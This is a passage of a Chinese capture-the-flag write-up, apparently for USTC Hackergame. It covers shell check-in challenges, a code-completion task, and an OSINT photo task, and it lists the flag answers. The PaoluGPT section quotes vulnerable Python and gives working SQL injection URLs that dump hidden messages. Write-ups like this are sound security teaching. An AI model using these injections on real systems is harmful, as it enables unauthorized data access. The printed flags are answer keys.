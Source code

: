 先 help，看到有个 `ls`，然后 `ls -a`，看到有个 flag。然后 `cat .flag` 即可。

`flag{0k_175_a_h1dd3n_s3c3rt_f14g___please_join_us_ustc_nebula_anD_two_maJor_requirements_aRe_shown_somewhere_else}`

### Checkin Again

~~大家可以试着输入一下 sudo 用来提权。~~

发奶龙的小朋友，我真的是给你跪下了，你动不动发这个，我真是吃不消了没有办法了。我失败了，你和奶龙胜利了，我拜托你别发了，我是窝囊废，我以后每天玩微博当奶龙粉丝，每天晚上不睡觉就在那想奶龙好不好，恳求你别发奶龙了

在网站上那个 shell 搞了好久才发现有 `env` 这个指令。

`flag{actually_theres_another_flag_here_trY_to_f1nD_1t_y0urself___join_us_ustc_nebula}`

## 惜字如金 3.0 / 题目 A

人工补全即可。然后注意这东西补全到 80 个空格就好啦。

`flag{C0mpl3ted-Th3-Pyth0n-C0de-N0w}`

## PaoluGPT

### 窥视未知

main.py:

```py
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

查看源代码可以看见有一处 SQL 注入点。访问 `/view?conversation_id=' or contents like '%flag%` 即可获取 flag。

`flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_b1c9a2df08}`

### 千里挑一

因为不止一个 flag，所以给数据库查询加一个 offset。访问 `/view?conversation_id=' or contents like '%flag%' limit 1 offset 1 --` 就可以拿到了。

`flag{zU1_xiA0_de_11m_Pa0lule!!!_a1c96fba7b}`

## 旅行照片 4.0

### LEO_CHAN?

#### 图片 1

看到图片上有「科里科气」等字样，搜索后发现

https://m[.]thepaper[.]cn/baijiahao_25897251

> 地理位置：金寨路与槽郢路交口，科大东区西门口立基大厦一期负一层

那么显然就是东校区西门了。
